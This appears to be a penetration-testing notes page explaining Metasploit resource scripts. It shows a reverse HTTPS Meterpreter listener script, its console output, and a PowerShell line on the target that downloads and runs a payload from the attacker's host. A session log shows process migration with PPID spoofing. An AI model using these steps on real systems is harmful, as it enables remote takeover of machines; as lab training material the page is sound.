 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Resource Scripts

Metasploit allows for workflow automation using **Resource Scripts** (`.rc` files). These are simple text files containing Metasploit console commands, which can also include Ruby code, to automate tasks—ideal for repetitive penetration testing actions.

## **Listener Setup**

Instead of manually setting up a handler every time we expect a reverse shell, we can create an `.rc` file:

{% code title="listener.rc" overflow="wrap" %}
```bash
# Set up a reverse HTTPS Meterpreter handler
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.45.232
set LPORT 443

# Auto-run a post module upon session creation
set AutoRunScript post/windows/manage/migrate

# Keep the listener alive after sessions close
set ExitOnSession false

# Start the handler in background mode
run -z -j
```
{% endcode %}

When we use the script, it launches the listener and prepares it to automatically migrate the session to another process once a connection is made.

```bash
$ sudo msfconsole -q -r listener.rc
[*] Processing listener.rc for ERB directives.
resource (listener.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (listener.rc)> set PAYLOAD windows/meterpreter_reverse_https
PAYLOAD => windows/meterpreter_reverse_https
resource (listener.rc)> set LHOST 192.168.45.232
LHOST => 192.168.45.232
resource (listener.rc)> set LPORT 443
LPORT => 443
resource (listener.rc)> set AutoRunScript post/windows/manage/migrate
AutoRunScript => post/windows/manage/migrate
resource (listener.rc)> set ExitOnSession false
ExitOnSession => false
resource (listener.rc)> run -z -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) >
[*] Started HTTPS reverse handler on https://192.168.45.232:443
```

{% code overflow="wrap" %}
```powershell
# Tansfering and triggering the payload from target
PS C:\Users\justin> iwr -uri http://192.168.45.232/met.exe -OutFile met.exe                                     PS C:\Users\justin> .\met.exe.
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# Payload connects
[*] Session ID 1 (192.168.45.232:443 -> 192.168.241.202:58591) processing AutoRunScript 'post/windows/manage/migrate'
[*] Running module against BRUTE2
[*] Current server process: met.exe (5240)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 6040
[+] Successfully migrated into process 6040
[*] Meterpreter session 1 opened (192.168.45.232:443 -> 192.168.241.202:58591) at 2025-04-24 12:55:10 +0300
```
{% endcode %}

Metasploit ships with many prebuilt `.rc` scripts.

```bash
$ ls /usr/share/metasploit-framework/scripts/resource/
```

* `autoexploit.rc` – automatically exploit known vulnerabilities
* `auto_cred_checker.rc` – brute force credential testing
* `basic_discovery.rc` – basic network recon
* `run_all_post.rc` – run all available post modules
* `smb_checks.rc` – check for SMB vulnerabilities

When planning to use multiple modules, we can define options globally across all modules. This is more flexible than `set`, which applies only to the current module.

```bash
setg RHOSTS 192.168.45.0/24
unsetg LPORT
```
